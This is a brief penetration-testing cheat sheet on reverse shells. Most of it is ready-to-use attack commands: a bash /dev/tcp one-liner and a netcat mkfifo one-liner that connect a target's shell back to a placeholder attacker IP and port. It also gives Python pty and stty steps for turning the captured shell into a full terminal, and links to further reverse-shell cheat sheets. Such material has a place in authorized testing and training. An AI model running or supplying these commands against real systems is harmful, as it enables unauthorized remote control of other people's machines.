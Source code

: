 # Reverse Shell

## One-Liners

#### Bash

```bash
bash -i >& /dev/tcp/<IP>/<port> 0>&1
```

#### Netcat

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <port> >/tmp/f
```

Sometimes one one-liner won't work, but another will. Two great cheatsheets are [pentestmonkey ](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)and [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

## Shell Cushions

If the reverse shell is terminal-based some measures can be taken to make it more comfortable to use.

### Spawn TTY

#### Python

```text
python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

[Additional](https://netsec.ws/?p=337) ways to spawn TTY.

### Auto-Completion

Background the process with Ctrl+z.

Execute this to disable echoing and send I/O straight through without processing.

```text
stty raw -echo
```

return to the process with fg + Enter x2.

[Additional cushions](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2).



